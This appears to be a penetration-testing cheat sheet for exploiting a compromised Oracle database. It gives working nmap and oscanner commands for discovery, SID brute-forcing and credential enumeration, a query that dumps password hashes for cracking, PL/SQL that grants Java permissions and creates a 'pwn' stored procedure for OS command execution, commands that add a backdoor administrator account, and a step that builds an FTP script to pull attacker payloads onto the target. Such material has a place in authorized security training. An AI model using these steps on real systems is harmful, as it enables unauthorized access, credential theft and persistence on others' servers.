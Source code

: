 # ORACLE Database Cheat Sheet
This module will provide us with enough information to get going with a compromised Oracle database.

## Database Discovery
Nmap can be used to discover a database running on our target system like so,

`nmap -A -p 1521 (TARGET IP ADDRESS)`

## Database Enumeration
Once discovered, we can perform some light and heavy enumeration. We must be careful not to lock out any accounts.

### NMAP NSE Scripts
Nmap can be used to brute force a SID from an Oracle service. This is essentially the Database name. I would recommend building your own oracle-sids file to use from your other service / os / etc enumeration results. Even the hostname / domain names can be added to this file.

`nmap --script oracle-sid-brute -p 1521 (TARGET IP ADDRESS)`

### OScanner
[oscanner](https://tools.kali.org/vulnerability-analysis/oscanner) is a tool that can be used to enumerate users and passwords from a database.

`root@kali:~# oscanner -s (TARGET IP ADDRESS)`

## SQL Syntax
We can issue the following commands with an interface to the database. This could be SQLPlus, or DBeaver.

### Get all Usernames and Hashed Passwords:
To concatenate the usernams and passwords with a colon to be used by John the Ripper, do:

`SELECT Username || ':' || PASSWORD AS credentials FROM DBA_USERS;`

## SYSTEM-Level Command Excecution
**Step 1: Add the correct permissions.** 

This PL/SQL query will take a minute or two to complete and cannot be done using __dbeaver__, it must be done with the __sqlPlus>__ client provided by __Oracle__ to avoid a serious curly brace '{','}', escaping issue with the driver used by dbeaver. This must be done as a SYSTEM-level DBA account. This is just a precautionary step to ensure that we do, in fact, have permissions to create the Java stored procedure that we will use to execute commands. In most cases, we don't have these permissions, but because we are SYSTEM-level DBA, we have permission to assign these permissions to ourself.

```
DECLARE
  l_schema VARCHAR2(30) := 'SYSTEM';
BEGIN
  DBMS_JAVA.grant_permission(l_schema, 'java.io.FilePermission', '<<ALL FILES>>', 'read ,write, execute, delete');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'writeFileDescriptor', '');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'readFileDescriptor', '');
END;
/
```
If successful, it will say *PL/SQL procedure successfully completed.* If using SQLPlus, don't worry about the added numbers, that is a flaw with the terminal / shell in the garbage Oracle code for SQLPlus; it will be ignored when executed.

**Step 2: Create Java Code to Execute:**

This SQL will create a Java class called `mycmd` and a method in the class called `execCommand`.

```
CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "pwn" AS
import java.lang.*;
import java.io.*;
 
public class pwn
{
 public static void cmd (String command) throws IOException
 {
     Runtime.getRuntime().exec(command);
 }
};
/
```
If successful you will see *Java created.* This Java creates a class called "pwn" that we can instantiate objects from. Thus we can do `object_name('C:\WINDOWS\System32\cmd.exe');` to execute commands right from the SQLPlus> shell.

**Step 3: Create a Procedure**

```
CREATE OR REPLACE PROCEDURE pwn_cmd (p_command IN VARCHAR2)
AS LANGUAGE JAVA
NAME 'pwn.cmd (java.lang.String)';
/
```
If successful, you will see *Procedure Created*. We can then call  it as `pwn_cmd('C:\WINDOWS\System32\CMD.EXE');` as so:

**Step 4: Execute Commands (__1 COMMAND AT A TIME__):**

`exec pwn_cmd('net user trevelyn trevelyn /add');`

`exec pwn_cmd('net localgroup Administrators trevelyn /add');`

If each command is successful, you will see *PL/SQL procedure successfully completed.*. If there is a failure, start the whole process over from step 1 and make sure that the formatting is correct and that each SQL query completes successfully. If you accidentally try two commands at once, you will be disobeying the interface of the class / method of mycmd.execCommand and the server will restart your SQL session state and you will have to start over again anyways.

**CAVEAT**
Some "commands" are actually built into shells. So, `echo`, for instance, is part of MSDOS.EXE and not an actual binary on the file system. This means that you cannot simply do:

`exec pwn_cmd('echo connect x.x.x.x > C:\ftp.script');`

As the object will throw an exception stating tha the handle is invalid. To execute shell built-ins, you can call the shell directly wi the command as an argument. For instance,

`exec pwn_cmd('cmd.exe /c echo open X.X.X.X > C:\ftp.txt');`

Will spawn a new MSDOS.EXE instance, and run the `echo` built-in shell command. This is useful to know if you do not have any other means of file system access and you want to [use FTP to pull payloads from the attacker onto the target system,](https://github.com/weaknetlabs/OSCP-tools/blob/master/Post%20Exploitation/ftp.md) or to create batch files and execute them directly from the SQLPlus shell itself.
